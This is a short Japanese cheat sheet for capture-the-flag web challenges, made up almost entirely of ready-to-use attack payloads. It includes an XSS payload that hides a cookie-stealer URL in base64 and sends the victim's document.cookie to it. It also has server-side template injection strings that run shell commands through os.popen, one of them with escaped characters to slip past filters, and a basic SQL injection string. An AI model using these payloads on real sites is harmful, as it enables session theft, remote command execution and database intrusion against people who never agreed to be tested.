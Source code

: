 # CTFチートシート
## 目次
{:toc}

---
## Web問
### XSS
```html:XSS
&lt;img src=x onerror=fetch(atob('aHR0cHM6Ly9tYXNhLWNvb2tpZXMtc3RlYWxlci5wYWdlcy5kZXYv')+?cookie='+document.cookie)&gt;
```
この場合は、僕のサイトにクッキーを送信する。
### SSTI
問題にどこにファイルがあるかわからない時には
```python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
### SQLインジェクション
まず最初に、**'** や、**"** を試す
エラーを吐いたら、次に、
```mysql:sqlinjection
' OR 1=1 --
```
を試してみる
